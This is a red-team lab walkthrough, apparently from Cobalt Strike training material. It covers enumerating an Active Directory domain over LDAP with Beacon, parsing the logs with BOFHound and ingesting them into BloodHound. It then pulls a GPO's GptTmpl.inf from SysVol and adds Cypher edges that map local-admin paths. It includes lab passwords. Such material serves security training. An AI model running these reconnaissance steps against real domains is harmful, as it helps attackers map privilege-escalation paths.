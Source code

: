 # Kill Chain

### BOFHound <a href="#bofhound" id="bofhound"></a>

1.  Use LDAP to enumerate the domain, users, groups, OUs, and GPOs.

    ```beacon-nocolor
    BeaconTypeCopyldapsearch (|(objectClass=domain)(objectClass=organizationalUnit)(objectClass=groupPolicyContainer)) *,ntsecuritydescriptor
    ldapsearch (|(samAccountType=805306368)(samAccountType=805306369)(samAccountType=268435456)) --attributes *,ntsecuritydescriptor
    ```
2. Copy the raw Beacon logs to the Attacker Desktop.
   1. From the Windows Terminal, open a tab for Ubuntu.
   2. cd /mnt/c/Users/Attacker/Desktop
   3.  scp -r attacker@10.0.0.5:/opt/cobaltstrike/logs .

       > The password is Passw0rd!.
3. Parse the logs with BOFHound
   1. bofhound -i logs

### BloodHound <a href="#bloodhound" id="bloodhound"></a>

1. Run BloodHound.
   1. From the Start Menu, open Docker Desktop.
   2. Click the **Containers** link on the left-hand side.
   3. Start all the containers by clicking the 'play' button, and wait for them to start.
   4. From the taskbar, open Microsoft Edge.
   5. Click the BloodHound shortcut in the favourites bar, or manually browse to http://localhost:8080/ui/login
   6. The browser should autofil the credentials. If not, use admin : eA%N4frBrnn2.
2. Ingest the BOFHound data.
   1. After first login, click the 'start by uploading your data' link.
   2.  On the new page, click the 'Upload File(s)' button and select the JSON files produced by BOFHound.

       > They will be in _C:\Users\Attacker\Desktop\\_.
   3. Wait until the status reaches 'Complete'.
3. Click the **Explore** link in the left-hand menu.
4. Select the Cypher query search box.
5. Using the following cypher query, search for GPOs in BloodHound:
   1. Match (n:GPO) return n
   2. Click **Run**.
6. Select the 'Workstation Admins' GPO.
   1. Take note of its Gpcpath.
   2. Expand its 'Affected Objects' and select 'Computers'.
7. Select each computer and note their Obiect ID.

### Restricted Groups Data <a href="#restricted-groups-data" id="restricted-groups-data"></a>

1.  Using the gpcpath for the Workstations Admins GPO, download its **GptTmpl.inf** file using Beacon.

    ```beacon-nocolor
    BeaconTypeCopyls \\contoso.com\SysVol\contoso.com\Policies\{2583E34A-BBCE-4061-9972-E2ADAB399BB4}\Machine\Microsoft\Windows NT\SecEdit\
    download \\contoso.com\SysVol\contoso.com\Policies\{2583E34A-BBCE-4061-9972-E2ADAB399BB4}\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf
    ```
2.  Sync the file to your Attacker Desktop.

    > View > Downloads.
3. Open the file in Notepad (or VSCode).
   1. Note the SID of the domain group.
4.  Add the custom edges in BloodHound.

    ```cypher
    CypherTypeCopyMATCH (x:Computer{objectid:'S-1-5-21-3926355307-1661546229-813047887-2101'})
    MATCH (y:Group{objectid:'S-1-5-21-3926355307-1661546229-813047887-1106'})
    MERGE (y)-[:AdminTo]->(x)
    ```

    ```cypher
    CypherTypeCopyMATCH (x:Computer{objectid:'S-1-5-21-3926355307-1661546229-813047887-2102'})
    MATCH (y:Group{objectid:'S-1-5-21-3926355307-1661546229-813047887-1106'})
    MERGE (y)-[:AdminTo]->(x)
    ```

BloodHound will now show that rsteel has local administrative privileges on WKSTN-1 and 2.

